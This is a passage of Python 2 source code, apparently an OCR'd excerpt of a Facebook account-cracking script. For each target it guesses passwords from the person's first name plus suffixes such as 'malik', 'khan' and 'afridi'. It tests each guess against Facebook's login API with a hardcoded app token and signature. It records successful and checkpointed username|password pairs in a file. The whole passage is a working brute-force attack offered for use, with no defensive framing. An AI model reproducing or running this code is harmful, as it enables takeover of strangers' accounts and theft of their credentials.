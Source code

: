 											print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + 'malik'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + 'khan'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + 'afridi'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	